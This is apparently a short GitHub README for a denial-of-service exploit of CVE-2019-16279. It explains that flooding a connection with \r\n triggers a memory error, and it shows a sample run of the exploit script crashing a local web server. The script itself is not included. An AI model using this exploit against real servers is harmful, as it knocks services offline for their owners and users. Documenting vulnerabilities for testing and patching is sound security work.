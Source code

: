 # CVE-2019-16279
（CVE-2019-16279）dos
This bug exploit a memory error when sending too many \r\n in a single connexion.



Example

$ curl http://127.0.0.1:8080
HELLO!
$ ./CVE-2019-16279.sh 127.0.0.1 8080
$ curl http://127.0.0.1:8080
curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused
